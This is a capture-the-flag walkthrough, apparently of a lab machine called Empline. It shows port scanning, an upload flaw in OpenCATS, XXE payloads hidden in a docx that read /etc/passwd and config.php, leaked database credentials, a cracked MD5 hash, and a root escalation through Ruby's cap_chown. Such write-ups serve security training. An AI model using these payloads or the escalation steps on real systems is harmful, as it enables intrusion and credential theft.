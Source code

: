 # Enumeration
```bash
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c0:d5:41:ee:a4:d0:83:0c:97:0d:75:cc:7b:10:7f:76 (RSA)
|   256 83:82:f9:69:19:7d:0d:5c:53:65:d5:54:f6:45:db:74 (ECDSA)
|_  256 4f:91:3e:8b:69:69:09:70:0e:82:26:28:5c:84:71:c9 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Empline
3306/tcp open  mysql   MySQL 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
|   Thread ID: 96
|   Capabilities flags: 63487
|   Some Capabilities: SupportsLoadDataLocal, ConnectWithDatabase, ODBCClient, LongPassword, Support41Auth, Speaks41ProtocolNew, Speaks41ProtocolOld, SupportsTransactions, DontAllowDatabaseTableColumn, FoundRows, IgnoreSigpipes, LongColumnFlag, SupportsCompression, InteractiveClient, IgnoreSpaceBeforeParenthesis, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: cM8nEJ&yV~9>l'xIDZxk
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.35 seconds
```
### PORT 80

The port 80 hosted a website.
![image](https://user-images.githubusercontent.com/43528306/138642355-d900a779-6dd5-4f98-8b7a-642c5e7d243d.png)

The website seems almost static except the `Employement` tab which points us to `job.empline.thm/careers`.
Looking at this subdomain, we found

![image](https://user-images.githubusercontent.com/43528306/138642494-2e4bd5e0-90eb-4bf1-9790-54828408558b.png)

Using `Apply to this job` we have a upload functionality.
# Exploit
It was exploitable in two ways:

## Using Uploading PHP shell
As the application was written in PHP, we can try to upload a PHP reverse shell. Uploading the Shell and submitting the form, we recieved `Resume was uploaded succesful`. Navigating to 
`job.empline.thm/upload`, we can see our PHP shell was uploaded successfuly. Using this we can get a reverse shell.


## Using XXE 
The application was vulnerable to XXE attack [here](https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/), where we can upload are resume. Docx file are basically zipped XML files. As the application was reading our *resume.docx* and extracting out the data,
we can assume that its parsing the whole file to extract data from it. To create a malicious docx, we need
```python
from docx import Document

document= Document()
paragraph = document.add_paragraph("Rocklee")
document.save('resume.docx')
```
### Creating Malicious docx
The above script will create a simple docx file with our name in it. 
- Now, we need to unzip the docx file.
- Modify the content of `word/document.xml`. After first line, add following paylaod:
```xml
<!DOCTYPE test [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
```
- Save the changes
- Zip the file again with modified contents
```bash
zip resume.docx word/document.xml
```

Upload the file and we have the contents of passwd file.

![image](https://user-images.githubusercontent.com/43528306/138641030-8cda02cf-73bd-4888-9582-7c6be54b2c23.png)

As the application was open-source, from github we found the whole directory structure. Our next task was to extract data from `config.php`
```xml
<!DOCTYPE [<!ENTITY test SYSTEM 'php://filter/convert.base64-encode/resource=config.php'>]>
```

Using this, we found the credentials to database.
```php
/* Database configuration. */                                                       
define('DATABASE_USER', 'james');                                                   
define('DATABASE_PASS', 'ng6pUFvsGNtw');                                            
define('DATABASE_HOST', 'localhost');                                                                                                                                    
define('DATABASE_NAME', 'opencats');
```
> Initially, I got foothold using PHP shell upload

### Shell as www-data

Looking at `config.php`
```php
/* Database configuration. */                                                       
define('DATABASE_USER', 'james');                                                   
define('DATABASE_PASS', 'ng6pUFvsGNtw');                                            
define('DATABASE_HOST', 'localhost');                                                                                                                                    
define('DATABASE_NAME', 'opencats');
```

Looking at users on the system.
```bash
cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1001:1001:Ubuntu:/home/ubuntu:/bin/bash
george:x:1002:1002::/home/george:/bin/bash
```
Using the creds we found, we can login into mysql.
```mysql
MariaDB [opencats]> select * from user\G;
...[snip]...
*************************** 3. row ***************************
                  user_id: 1251
                  site_id: 1
                user_name: george
                    email: 
                 password: 86d0dfda99dbebc424eb4407947356ac
...[snip]...
```
The database contains a users table with password and username. The password hash was MD5 which we can easily decrypt using any online service 
Using crackstation, we found the password `pretonnevippasempre`

### Shell as George
Now we can read user.txt file.

```bash
george@empline:/$ getcap -r / 2>/dev/null 
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/local/bin/ruby = cap_chown+ep
```
Ruby was having a capablity of `cap_chown`, using this we can change owner of a file. Looking at docs, we found a way to do this in ruby which require user-id and gid to which we want to change this to.
```bash
george@empline:/dev/shm$ ruby -e 'require "fileutils";FileUtils.chown(1002,1002,"/root")'                                                                                
george@empline:/dev/shm$ cd /root                                                                                                                                        
george@empline:/root$ ls -la                                                                                                                                             
total 36                                                                                                                                                                 
drwx------  4 george george 4096 Jul 20 19:52 .                                                                                                                          
drwxr-xr-x 24 root   root   4096 Oct 25 04:34 ..                                                                                                                         
-rw-------  1 root   root      5 Jul 20 19:52 .bash_history                                                                                                              
-rw-r--r--  1 root   root   3106 Apr  9  2018 .bashrc                                                                                                                    
drwxr-xr-x  3 root   root   4096 Jul 20 19:49 .local                                                                                                                     
-rw-r--r--  1 root   root    148 Aug 17  2015 .profile                                                                                                                   
drwx------  2 root   root   4096 Jul 20 19:45 .ssh                                                                                                                       
-rw-r--r--  1 root   root    227 Jul 20 19:48 .wget-hsts                                                                                                                 
-rw-r--r--  1 root   root     33 Jul 20 19:48 root.txt           
```

ROOT!!
